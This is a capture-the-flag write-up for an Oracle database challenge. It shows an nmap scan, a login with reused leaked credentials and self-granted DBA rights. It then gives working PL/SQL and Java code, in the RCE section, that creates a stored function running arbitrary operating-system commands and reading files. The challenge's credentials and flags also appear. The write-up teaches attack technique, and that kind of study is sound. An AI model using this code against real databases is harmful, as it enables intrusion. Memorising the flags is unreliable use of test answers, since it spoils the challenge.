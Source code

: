 # Nmap

After a quick nmap scan, there is an [Oracle TNS Listener](https://docs.oracle.com/cd/E26401_01/doc.122/e22952/T156458T659598.htm) server version `12.2.0.1.0` running on the port.

```bash
nmap -Pn -n -sV -p1521 --script=oracle* 10.10.3.11
```

```
PORT     STATE SERVICE    VERSION
1521/tcp open  oracle-tns Oracle TNS listener 12.2.0.1.0 (unauthorized)
```

# Database access

There were some [boss_note.txt](../Pentest_Princess/workdir/boss_note.txt) found earlier on Princess with credentials. See [Princess challenge (SPOILER)](../Pentest_Princess/WRITEUP.md#spoiler) for details.

```
DB_PDB=ORCLEPDB1
DB_DOMAIN=awesome-corp.com
DB_USER=WilfredWarrior
DB_PASS=Pp59if6gjsXWiCQTRP3Y
```

Using [Oracle Instant client](https://www.oracle.com/database/technologies/instant-client/downloads.html) (sqlplus) or [SQL Developer](https://www.oracle.com/database/sqldeveloper/technologies/download/) (in this case version 17) can be used as client for the database.

This might help to get them work under linux: <https://docs.metasploit.com/docs/using-metasploit/other/oracle-support/>.

The credentials can be used to log in.

```bash
sqlplus 'WilfredWarrior/Pp59if6gjsXWiCQTRP3Y@10.10.3.11:1521/ORCLEPDB1.awesome-corp.com'
```

# Database content

Checking our tables and permissions, it can be seen that it is limited.

![](screenshots/1.png)

We do have `GRANT` permission, so we can simlply give `DBA` (database administrator) permission as well.

![](screenshots/2.png)

After a relog, we have way more permissions now.

![](screenshots/3.png)

Looking for tables with flag, there is one that stands out: `SYS.FLAG`.

![](screenshots/4.png)

The table has the flag.

![](screenshots/5.png)

# Flag db
{HCSC}-Th!s_1S-th3:Fl@g;4-Sy5!!4

# RCE

As we are already DB admins, there are multiple ways to run code in the Oracle database: java, eternaltable, scheduler.

The following PL/SQL block runs slowly, seemingly freezing the client, but actually the server was working on it.

For the java solution, there is an extra permission we don't have with DBA yet. Running this PL/SQL block grants it.

```sql
BEGIN
dbms_java.grant_permission( 'WILFREDWARRIOR', 'SYS:java.io.FilePermission', '<<ALL FILES>>', 'execute' );
END;
/
```

After this, our code that runs anything can be written. <https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#oracle>.

```sql
BEGIN
EXECUTE IMMEDIATE 'create or replace and compile java source named "PwnUtil" as import java.io.*; public class PwnUtil{ public static String runCmd(String args){ try{ BufferedReader myReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(args).getInputStream()));String stemp, str = "";while ((stemp = myReader.readLine()) != null) str += stemp + "\n";myReader.close();return str;} catch (Exception e){ return e.toString();}} public static String readFile(String filename){ try{ BufferedReader myReader = new BufferedReader(new FileReader(filename));String stemp, str = "";while((stemp = myReader.readLine()) != null) str += stemp + "\n";myReader.close();return str;} catch (Exception e){ return e.toString();}}};';
END;
/
 
BEGIN
EXECUTE IMMEDIATE 'create or replace function PwnUtilFunc(p_cmd in varchar2) return varchar2 as language java name ''PwnUtil.runCmd(java.lang.String) return String'';';
END;
/
```

Using the created function, anything can be executed now.

![](screenshots/6.png)

# Flag rce
{HCSC}-0r@cl3_Loc4l:fl@g-w!lfrED